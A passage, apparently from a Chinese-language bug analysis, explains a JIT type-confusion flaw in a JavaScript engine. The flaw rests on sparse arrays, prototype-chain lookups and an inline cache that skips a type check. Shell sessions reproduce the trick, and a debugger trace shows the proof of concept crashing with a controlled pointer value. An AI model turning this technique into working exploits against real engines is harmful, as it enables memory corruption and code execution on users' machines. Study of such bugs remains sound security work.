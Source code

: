 `v7()` 执行后会进入到`jit` ,这里还需要知道一个知识点, 对于稀疏类型的array, 如有`a=[]; a[3] =1` 这样`a[0], a[1],a[2]` 都是`undefined` 的，它就会顺着原型链一层一层的找有没有`indexed` 类型的对象， 像下面这样

```
js&gt; a=[]
[]
js&gt; a[3]=1
1
js&gt; a 
[, , , 1]
js&gt; a.__proto__=[4,5]
[4, 5]
js&gt; a
[4, 5, , 1]
js&gt; a.pop()
1
js&gt; a.pop()
js&gt; a.pop()
5
js&gt; a.pop()
4
```

执行`pop` 之后`Array.pop` 进入`inline cache`, 根据前面的分析，这里不会检查`v4.__proto__`, 检查通过， `jit` 层会认为`v4.pop()` 固定是一个`object`, 会去掉其类型检查。

于是在`v7` 里， 当`v4` 5个对象都pop完之后,`v4[3] = `{`a: 5`}`;` ，`v4` 变成稀疏类型的array, 这时候`p[0]` 会转入`index ==0` 的地方, 当pop到`p[0] = -1.8629373288622089e-06` 时有`v11 == -1.8629373288622089e-06` ，但是`jit` 仍认为它是一个`object`，访问`v11.a` 就会有非法内存访问而crash

```
js&gt; a=[]
[]
js&gt; a[3]=1
1
js&gt; a
[, , , 1]
js&gt; p=`{``}`
(`{``}`)
js&gt;  p.__proto__ = [`{`a: 0`}`, `{`a: 1`}`, `{`a: 2`}`];
[`{`a:0`}`, `{`a:1`}`, `{`a:2`}`]
js&gt; p[0] = -1.8629373288622089e-06;
-0.0000018629373288622089
js&gt; p
[-0.0000018629373288622089, `{`a:1`}`, `{`a:2`}`]
js&gt; a.__proto__=p
[-0.0000018629373288622089, `{`a:1`}`, `{`a:2`}`]
js&gt; a
[-0.0000018629373288622089, `{`a:1`}`, `{`a:2`}`, 1]
```

poc 运行之后效果如下

```
pwndbg&gt; set args --no-threads poc.js
pwndbg&gt; r

 RAX  0x4141414141414141 ('AAAAAAAA')
//..
 RSI  0x7fffffff9d48 —▸ 0x7fffffff9d80 ◂— 0xbebf414141414141
 R8   0x1
 R9   0x7fffffff9aa8 ◂— 0x0
//...
 RIP  0x3ac4ec7485d0 ◂— cmp    qword ptr [rax], r11
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
```

[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96